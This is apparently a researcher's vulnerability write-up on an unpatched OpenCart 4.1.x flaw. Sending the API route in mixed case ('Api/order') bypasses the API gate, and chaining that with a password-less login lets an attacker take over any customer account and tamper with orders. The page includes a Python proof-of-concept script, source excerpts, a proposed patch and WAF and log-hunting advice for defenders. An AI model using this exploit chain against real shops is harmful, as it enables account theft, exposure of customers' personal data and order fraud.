








← ../ opencart-api-case-confusion
chu@antisec:~/research$ cat opencart-api-case-confusion
opencart 4.1.x — api route case confusion → unauthenticated account takeover & order tampering
cvss v3.1 — AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H — pre-auth, remote, no user
interaction. validated end-to-end against 4.1.0.3 in a docker lab.
opencart guards its catalog api with a case-sensitive string compare on the route prefix (
api/), but resolves controllers case-insensitively. requestindex.php?route=Api/order&call=customerinstead of the lowercase spelling and the guard never fires — no allow-list, no hmac signature — while the exact same controller still loads and runs.that endpoint performs a password-less login as any customer whose e-mail you know (they're enumerable). chain it with the open self-registration — which mints a valid
customer_tokenthat the override login doesn't reset — and you pivot your throwaway session into the victim's account and change their password. no credentials, no user interaction. cvss 9.8, and honestly it earns it.
impact
what an attacker gets- unauthenticated login as any customere-mail only
- full account takeoverread pii, change password + e-mail, no current pw
- unauthenticated order tamperingany order, no ownership check
- whole catalog api reachable without a signaturecart, order, subscription, affiliate, addresses
e-mail enumeration is trivial on a stock shop (registration "already exists" errors, password-reset
response differences), so this scales from one targeted victim to mass account compromise.
order tampering is worse than it sounds: call=history_add can flip any order to
complete/shipped, which fires stock decrements, digital-download releases, affiliate commissions, and
attacker-worded notification e-mails to real customers. if you process eu/br personal data, an anonymous
attacker reading customer records is a gdpr/lgpd problem, not just a bug tracker entry.
what this is not: the admin panel is not in this chain. every admin route outside the login allow-list requires
isLogged()+user_token, and there is no password-less admin login primitive. no pre-auth sql injection found either — so no rce from this bug alone. customer accounts and orders only, which is already plenty.
the bug
two casings, one controllerthe whole api perimeter is one comparison in the startup/api pre-action, which runs on every
catalog request. it decides everything — allow-list and signature enforcement — from the raw,
case-preserved route string:
// only these two routes may use the api, and only with a valid signature
$allowed = ['api/order', 'api/subscription'];
// block direct access to every other api controller
if (substr($route, 0, 4) == 'api/' && !in_array($route, $allowed)) {
return new \Opencart\System\Engine\Action('startup/api.permission'); // 403
}
if (in_array($route, $allowed)) {
/* hmac request-signature validation (line 96) — skipped too, see below */
}ask for route=Api/customer and substr('Api/customer', 0, 4) returns
'Api/' — which is not equal to 'api/'. the block never triggers,
the route isn't in the allow-list either, so the signature check is skipped as well, the pre-action returns
null, and the request proceeds to dispatch. the same case-sensitive check exists in
startup/session.php, which is why the bypassed request just rides a normal cookie session.
meanwhile the router is perfectly happy to load that controller. the factory builds a class name from the
route and checks it with the case-insensitive class_exists(), and the autoloader
lowercases the path before include:
// factory.php — class name built from the route, checked case-insensitively
$class = 'Opencart\\' . $application . '\Controller\\'
. str_replace(['_','/'], ['','\\'], ucwords($route, '_/'));
if (class_exists($class)) { return new $class($this->registry); }
// autoloader.php — file path is forced to lower case before include
$file = $dir . trim(str_replace('\\','/', strtolower(...)), '/') . '.php';so Api/customer becomes Opencart\Catalog\Controller\Api\Customer, the autoloader
maps it to catalog/controller/api/customer.php, and php — whose class names are
case-insensitive anyway — instantiates it. i confirmed at runtime via reflection that the requested fqcn
and the as-declared namespace don't even match in case (Opencart\Catalog\… requested vs
Opencart\catalog\… declared in the source) and php resolves them regardless. the codebase has
been leaning on that leniency all along.
one nuance worth knowing: not every mixed-case spelling survives the
ucwords() + camelCase→snake rewriting in the autoloader. spellings whose api
segment has an internal lower→upper transition get rewritten to a path that doesn't exist:
| route prefix | result (live, 4.1.0.3) |
|---|---|
api/ (lowercase) | http 403 — gate enforced, signature required |
Api/ · API/ · aPi/ · aPI/ | http 200 — controller reached, bypass |
apI/ · ApI/ | http 404 — class/file not resolved |
canonical poc vector: Api/. affected: 4.1.0.0 – 4.1.0.3 and the
master branch (4.2.0.0-dev). 4.0.x ships an older api_id-based gate and no
api/customer.php, so the account-takeover chain doesn't apply there; 3.x is a different
architecture entirely.


api/order is blocked (left);
Api/order reaches the controller (right).

api/order →
403 forbidden; Api/order → 200 ok with no signature.attack flow
register, pivot, reset attacker (no creds, no signature) opencart 4.1.0.3
│ │
│ POST /index.php?route=account/register ─────►│ open self-registration
│ ◄── customer_token (T) + own session ─────────│ T is valid, attacker-owned
│ │
│ POST /index.php?route=Api/order&call=customer ─►│ substr('Api/',0,4) != 'api/'
│ email=victim@example.com │ → no 403, no hmac check
│ │ → login($email, '', true)
│ ◄── 200 "successfully modified customers" ────│ session.customer_id = victim
│ │ T is NOT reset
│ POST /index.php?route=account/password.save&customer_token=T ─►
│ password=Pwned-1! │ no current password required
│ ◄── 200 "password updated" ───────────────────│
│ │
│ ⇒ log in as the victim. account taken over. │
three opencart decisions stack up here.
one — the password-less login. api/customer is meant to be called by the
shop's own integration layer, so it just trusts the e-mail it's handed:
// api/customer.php — 3rd arg = $override
$this->customer->login($post_info['email'], '', true);
// cart/customer.php — the password check is skipped when $override === true
if (!$override) { /* password_verify / sha1 / md5 ... */ }
$this->session->data['customer_id'] = $customer_query->row['customer_id']; // authenticatedon the next request startup/customer rehydrates the session and isLogged() is
true. congratulations, you are now the victim.
two — the token that survives an identity swap. the override login sets
customer_id and never touches session.customer_token. account-area actions are
gated by account/login.validate, which only compares the customer_token in the
url against the one in the session — and a valid one is minted by any auth event, including the open
self-registration. so the token you got for your throwaway account keeps working after the session is
pivoted to someone else.
three — the password change that asks no questions. inside the account area,
account/password.save calls editPassword() without requiring the current
password. that's the takeover: change the victim's password, then change their e-mail too if you want to
keep the account after they notice.
order tampering is a fourth, separate gift: api/order&call=history_add ends up in
addHistory(), which fetches the order by id only — getOrder() in
model/checkout/order.php filters on order_id with no customer scoping at all.

customer_token for the attacker's own account.
Api/order&call=customer with the victim's
e-mail — no password, no signature — returns 200
{"success":"You have successfully modified customers"}. the session is now the victim's, and
the token from (a) survived the swap.
account/password.save reusing that same token →
password reset with no current password:
{"success":"Success: Your password has been successfully updated."}
poc
lab onlygate check first: route=api/order&call=customer → 403;
route=Api/order&call=customer → 200. then the chain, trimmed from the
full script (poc_opencart_ato.py, routes every request through burp by default). run it against
your own instance only.
#!/usr/bin/env python3
# poc_opencart_ato.py — opencart 4.1.x api route case-confusion -> account takeover
# affected: 4.1.0.0 - 4.1.0.3 (and master). authorized testing only.
import re, time, requests, urllib3
urllib3.disable_warnings()
def token(name, text):
m = re.search(name + r'=([a-f0-9]+)', text)
return m.group(1) if m else None
s = requests.Session() # one cookie jar, start to finish
attacker = f"attacker_{int(time.time())}@example.invalid"
# [1] register a throwaway account -> mints a valid customer_token (T)
rt = token("register_token", s.get(base, params={"route": "account/register"}).text)
r = s.post(base, params={"route": "account/register.register", "register_token": rt},
data={"firstname": "Mal", "lastname": "Lory", "email": attacker,
"password": "Attacker123!", "agree": "1"})
ct = token("customer_token", r.text)
print(f"[1] registered {attacker} -> customer_token={ct}")
# [2] the case confusion: Api/ skips the gate AND the signature check.
# password-less override login -> session pivots to the victim, T survives
r = s.post(base, params={"route": "Api/order", "call": "customer"},
data={"firstname": "x", "lastname": "y", "email": victim})
if '"success"' not in r.text:
sys.exit("[!] override login failed (patched?)")
print(f"[2] pivoted session to victim '{victim}'")
# [3] reset the victim's password with the attacker's token (no current pw)
r = s.post(base, params={"route": "account/password.save", "customer_token": ct},
data={"password": new_pw, "confirm": new_pw})
print(f"[3] victim password reset -> '{new_pw}'")
# [4] log in as the victim with the new password. account taken over.lab result on 4.1.0.3: the victim's bcrypt hash changed, and login with the
attacker-set password succeeded as customer_id=1 — the victim.
disclosure status
the honest part- 2026-06-05discovered & validated source review, then a live docker lab of 4.1.0.3 — full chain reproduced end-to-end.
- 2026-06-06advisory + proposed patch written
i wrote the fix myself (
fix-opencart-api-case-confusion.patch); it is a proposal, not something opencart shipped. - pendingghsa — drafted, not filed the advisory draft is ready to route through the vendor's private reporting. no ghsa id exists yet, so there's nothing to link here.
- pendingvendor response none on file. nothing received, nothing confirmed, nothing denied.
- pendingcve
not assigned — referenced as
CVE-XXXX-XXXXXuntil one exists.
status, plainly: no cve, no ghsa id, no vendor reply, no patched release. the diff in the next section is mine. i'm holding the full weaponized details on this page to what's needed to understand and defend, and the timeline here gets updated the moment any of that changes.
fix & mitigations
proposed, not mergedthe root fix is boring on purpose: never make a security decision on a raw, case-preserved string that a
case-insensitive resolver is about to honour. normalise the route (or decide on the resolved controller
class), and apply the same in startup/session.php:
--- a/upload/catalog/controller/startup/api.php
+++ b/upload/catalog/controller/startup/api.php
$allowed = ['api/order', 'api/subscription'];
+
+ // Normalise the route so the API restriction cannot be bypassed via case
+ // variation such as "Api/customer" (PHP resolution is case-insensitive).
+ $route = strtolower($route);
if (substr($route, 0, 4) == 'api/' && !in_array($route, $allowed)) {
return new \Opencart\System\Engine\Action('startup/api.permission');
}
--- a/upload/catalog/controller/startup/session.php
+++ b/upload/catalog/controller/startup/session.php
- if (... substr((string)$this->request->get['route'], 0, 4) == 'api/' ...) {
+ if (... substr(strtolower((string)$this->request->get['route']), 0, 4) == 'api/' ...) {
--- a/upload/system/library/cart/customer.php
+++ b/upload/system/library/cart/customer.php
$this->session->data['customer_id'] = $customer_query->row['customer_id'];
+
+ // Drop any pre-existing token so an identity change cannot inherit a
+ // token bound to a different account.
+ unset($this->session->data['customer_token']);defense in depth (for the maintainers)
api/customermust not perform an override-login outside a verified api session context.- regenerate the session and reset
customer_tokenon every identity change — a stale token must never follow a swappedcustomer_id. account/password.saveandaccount/editshould require the current password or a step-up check.- api
getOrder()/addHistory()must scope orders by the authenticated customer.
if you run an opencart 4.1.x shop today
- block, at the web server or waf, any
index.phprequest whoseroutematches(?i)^api/but is not exactly lowercaseapi/.... - disable the catalog api user if you don't actively use it.
- hunt backwards: access logs with uppercase letters inside the
apiroute segment, password/e-mail changes with no precedingaccount/login.login, and order-history inserts that didn't come from the admin or a signed api call.